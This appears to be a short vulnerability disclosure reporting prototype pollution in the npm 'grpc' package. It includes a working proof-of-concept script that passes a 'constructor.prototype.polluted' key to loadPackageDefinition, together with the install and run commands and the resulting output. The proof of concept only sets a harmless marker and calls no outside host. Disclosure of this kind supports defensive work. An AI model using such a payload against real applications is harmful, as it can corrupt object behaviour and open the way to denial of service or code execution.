 # Description

`grpc` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var grpc =require('grpc')
grpc.loadPackageDefinition({'constructor.prototype.polluted': "Yes! Its Polluted"});
console.log({}.polluted)
```

2. Execute the following commands in another terminal:

```bash
npm i grpc # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
[Function: ServiceClient] { service: 'Yes! Its Polluted' }
```
